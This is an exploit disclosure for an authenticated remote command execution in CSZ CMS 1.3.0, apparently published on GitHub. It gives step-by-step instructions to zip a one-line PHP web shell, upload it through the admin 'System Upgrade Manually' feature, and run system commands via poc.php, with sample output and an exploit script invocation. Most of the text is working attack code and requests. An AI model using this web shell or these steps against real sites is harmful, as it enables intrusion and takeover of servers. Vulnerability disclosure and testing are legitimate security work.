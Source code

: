 ## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.

4. Execute commands remotely:
   - Test the execution with the `id` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
     ```
     Expected output:
     ```
     uid=1000(soft) gid=1000(soft) groups=1000(soft)
     ```
   - List directory contents using the `ls` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls
     ```
     Expected output:
     ```
     CHANGELOG
     CONTRIBUTING.md
     LICENSE.md
     README.md
     SECURITY.md
     a.php
     assets
     cache.config.inc.php
     config.inc.php
     config_example.inc.php
     corecss.css
     corejs.js
     cszcms
     devtoolsbar.config.inc.php
     env.config.inc.php
     htaccess.config.inc.php
     index.php
     install
     memcached.config.inc.php
     nginx_example.com.conf
     photo
     poc.php
     proxy.inc.php
     redis.config.inc.php
     system
     templates
     test.php
     ```
## Exploit :

```python3 CSZ_CMS.py https://demos1.softaculous.com/CSZ_CMSladcjtgqrm/ id```

<img src="https://raw.githubusercontent.com/capture0x/CSZ_CMS/main/1.png" alt="CMS IMAGE" width="1000">
